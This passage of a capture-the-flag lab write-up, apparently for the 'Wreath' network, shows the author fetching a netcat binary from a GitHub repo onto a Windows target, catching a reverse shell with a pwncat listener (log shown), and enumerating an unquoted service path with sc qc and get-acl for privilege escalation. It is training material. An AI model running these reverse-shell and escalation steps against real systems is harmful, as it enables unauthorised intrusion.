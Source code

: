 ![Screen Shot 2021-09-15 at 00.38.35.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/5C3EE489-35ED-4B29-A0C9-5BF9A7CCFF83/EE2D5D91-59C1-47BB-8ED1-5F3C486024E7_2/Screen%20Shot%202021-09-15%20at%2000.38.35.png)

Alright, we got the code execution. Now we need to upload/download netcat binary on target.

> [https://github.com/int0x33/nc.exe/](https://github.com/int0x33/nc.exe/)

Get x64 compiled binary from the repo and setup an HTTP server on Kali machine.

![Screen Shot 2021-09-15 at 01.26.51.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/5C3EE489-35ED-4B29-A0C9-5BF9A7CCFF83/A331C8CA-3B8B-4CBA-AF82-314BE4CC715C_2/Screen%20Shot%202021-09-15%20at%2001.26.51.png)

Setup a listener and execute netcat to get reverse connection.

![Screen Shot 2021-09-15 at 01.29.00.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/5C3EE489-35ED-4B29-A0C9-5BF9A7CCFF83/FA93D748-8620-4C7F-B3F4-2A65535C0D4B_2/Screen%20Shot%202021-09-15%20at%2001.29.00.png)

Check the listener.

```
⛩\> pwncat --platform windows -lp 9001
[08:28:49] Welcome to pwncat 🐈!                                                                                                                __main__.py:143
[08:29:27] received connection from 10.200.185.100:51386                                                                                             bind.py:57
[08:29:28] 0.0.0.0:9001: dropping stage one in '\\Windows\\Tasks\\rlPCnt9Y'                                                                      manager.py:502
[08:29:31] 0.0.0.0:9001: using install utils from .net v4.0.30319                                                                                manager.py:502
[08:29:33] 10.200.185.100:51386: registered new host w/ db                                                                                       manager.py:502
(local) pwncat$
(remote) Thomas@WREATH-PC:C:\xampp\htdocs\resources\uploads$ whoami
whoami
wreath-pc\thomas
```

WinPeas detected a lot of vulnerabilities based on previously installed patches, but we will take advantage of ‘unquoted service path’ exploit.

![Screen Shot 2021-09-15 at 01.38.31.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/5C3EE489-35ED-4B29-A0C9-5BF9A7CCFF83/9AE0B833-AF1C-4F3D-AFB3-49903B0BEC3C_2/Screen%20Shot%202021-09-15%20at%2001.38.31.png)

This service is running with local system privileges and we have permission to read/write (full control) the directory of service.

```
C:\xampp\htdocs\resources\uploads>sc qc SystemExplorerHelpService
sc qc SystemExplorerHelpService
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: SystemExplorerHelpService
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\Program Files (x86)\System Explorer\System Explorer\service\SystemExplorerService64.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : System Explorer Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

C:\xampp\htdocs\resources\uploads>powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"


Path   : Microsoft.PowerShell.Core\FileSystem::C:\Program Files (x86)\System Explorer
Owner  : BUILTIN\Administrators
Group  : WREATH-PC\None
Access : BUILTIN\Users Allow  FullControl
```